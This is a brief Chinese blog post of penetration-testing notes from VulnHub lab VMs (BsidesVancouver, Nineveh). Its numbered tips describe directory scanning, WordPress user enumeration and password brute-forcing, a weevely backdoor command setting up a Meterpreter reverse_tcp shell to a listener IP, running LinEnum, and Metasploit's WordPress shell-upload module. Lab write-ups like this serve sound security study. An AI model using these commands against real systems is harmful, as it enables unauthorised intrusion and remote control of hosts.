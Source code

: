 ```yaml
---
title: 靶机渗透实战总结
date: 2019-04-25 13:48:51
tags:
    - 靶机渗透
    - 小技巧
categories:
    - 实践运用
---
```


## BsidesVancouver靶机渗透
[靶机下载地址](https://www.vulnhub.com/entry/bsides-vancouver-2018-workshop,231/)
### 笔记起来
1. dirb 进行目录扫描尽量使用大字典 big.txt
2. 对于wordpress 可以用wordscan进行用户名识别再进行密码爆破
3. 对于wordpress 进入后台后可以利用
4. 用weevely生成的马可以反向连接msf
    ```bash
    :backdoor_meterpreter -payload php/meterpreter/reverse_tcp -lhost 192.168.2.112
    ```
5. 在靶机中执行LinEnum.git程序可以在低权限获取系统敏感信息
    ```bash
    git clone https://github.com/rebootuser/LinEnum.git
    ./LinEnum.sh
    ```
6. 进入wordpress后台后难以找到上传点时可以用msf的wp_admin_shell_upload模块直接弹shell
<!--more-->

### 参考资料
[攻略](http://hu3sky.ooo/2018/06/23/Bsides%E9%9D%B6%E6%9C%BA/)
[攻略2](https://blog.csdn.net/freegotocpp/article/details/85616907)
[攻略3](https://www.cnblogs.com/hack404/p/10490752.html)

### 笔记起来
爆破后台上马拿shell提权chkrootkit
## Nineveh靶机渗透

### 参考资料
[攻略](https://www.anquanke.com/post/id/104336)
[攻略2](https://www.cnblogs.com/bmjoker/p/9214724.html)
